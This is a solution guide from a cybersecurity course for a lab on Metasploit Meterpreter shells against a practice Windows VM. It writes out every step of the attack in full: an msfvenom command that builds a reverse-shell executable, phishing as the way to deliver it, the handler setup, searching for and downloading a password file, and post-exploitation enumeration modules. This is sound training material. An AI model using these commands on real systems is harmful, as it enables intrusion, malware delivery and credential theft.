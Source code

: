 ## Solution Guide: Meterpreter Shells

The goal of this activity was to practice using Metasploit modules and payloads.

---

1. In Kali, create an executable payload for the target machine using `msfvenom`. You have been provided a template command to create your exploit. 

   Type and run the following command, but remember to update the `LHOST` with the correct IP:

     - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.8 LPORT=4444 -f exe > hack.exe`

   **Note**: We'll cover custom payloads in the next lesson. For now, just know that this payload will create a malicious `hack.exe` file. 

2. Remember, once the payload is created, the attacker needs to get their payload onto the victim's computer. For this activity, assume that your payload reached the victim's machine via social engineering. 

   In one or two sentences, describe how you might have used social engineering to deliver this payload to the victim machine. 

   -  You might have targeted an employee with a phishing email using information obtained from their LinkedIn and Facebook profiles.

   - The targeted employee opened the email that contained your malware called `hack.exe`, which installed it on to their local hard drive.

      
3. In DVW10, verify that `hack.exe` is on the victim machine. 

   * Navigate to the Downloads folder on the DVW10 VM and locate the EXE file.


     - Do not click on the file just yet. 

4. Return to Kali and run the commands needed to establish the reverse connection once the file has been executed.
   
   - Launch the MSFconsole in preparation for establishing the reverse connection. Then run the commands that will do the following tasks:

      - Launch MSFconsole:

         - `msfconsole`

      - Load the `exploit/multi/handler`:

         - `use exploit/multi/handler`

      - Set the payload to `windows/meterpreter/reverse_tcp`:

         - `set payload windows/meterpreter/reverse_tcp`

        ![Find 3](Images/FIND_3.png)

      - View the payload's options:

         - `show options`

      - Set `LHOST` to the IP of your Kali machine:

         - `set LHOST 192.168.0.8`
   
      - Set the `LPORT` to `4444` of your Kali machine:

         -  `set LPORT 4444`

          ![Find 4](Images/FIND_4.png)

      - Verify the option settings took effect:

         - `show options`

         ![Find 5](Images/FIND_5.png)


5. Run the exploit:

   - `exploit` or `run`

    - Now that the listener is running on Kali, go to the DVW10 machine and double-click on the `hack.exe` file to start the reverse shell.
  
    - Long idle times may cause the listener to close the connection. Double-clicking `hack.exe` forces the connection back up.

6. Now we will explore the exploited machine and begin our hunt for the target information.

   - As a warm-up, run the Meterpreter command that searches for files on the remote host:

      - `search -f <filename>`

      - `search -h`

      ![Find 6](Images/FIND_6.png)


7. Let's begin the hunt:

   - Search the remote filesystem for all files ending with `.jpg`:

      -  `search -f *.jpg`

       ![Find 7](Images/FIND_7.png)
   - Search the remote filesystem for a file called `password`:

      - `search -f password*`

   - Exfiltrate this file from the DVW10 VM:
     
      - `download 'C:\Users\IEuser\Documents\password.txt'`

       ![Find 8](Images/FIND_8.png)

### Bonus

Although security professionals are not expected to be familiar with every module and payload offered in Metasploit and Meterpreter, you will be expected to find the tools you need through online searches. 

Try to complete the following tasks: 

- Find and use a post-exploitation module that enumerates network shares (Windows Gather SMB Share Enumeration via Registry) on the DVW10 machine:

   - `run post/windows/gather/enum_shares`

   - Results show there are not shares running on the VM. 

- Find and use a post-exploitation module that checks if the DVW10 computer is running inside a VM:

     -  `run post/windows/gather/checkvm`
     
     -  Results show that it is a Hyper-V VM. 

- Launch a command shell within Meterpreter and perform enumeration that displays user account information on the breached DVW10 computer:

    - `net users`

     ![Shell](Images/SHELL.png)

____

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
